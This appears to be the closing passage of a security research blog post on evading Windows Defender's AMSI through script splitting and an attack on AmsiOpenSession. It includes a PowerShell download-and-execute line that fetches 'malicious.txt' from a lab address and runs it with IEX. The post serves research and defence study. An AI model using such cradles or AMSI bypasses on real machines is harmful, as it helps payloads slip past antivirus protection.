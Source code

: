 ```
$PowerShell.AddScript({(New-Object Net.Webclient).downloadstring("http://192.168.159.131/rastamouse/malicious.txt")|IEX}).Invoke();
```

Let's test it. Very nice!

[image19]


## Conclusion

Our imaginary script kiddie has made a little bit of progress since their time of just modifying a short AMSI bypass tweet.

We demonstrated a script-splitting technique which reduces Windows Defender's ability to make connections between different part of a script.

We also demonstrated a way to bypass what could be a potential future mitigation to the script-splitting technique.

Finally, we showed how to succesfully attack the AmsiOpenSession function, showing how to tackle a significant hurdle in the implementation of a bypass.

I hope other security researchers will find some inspiration to dig further, come up with new ideas, and share with the community. 
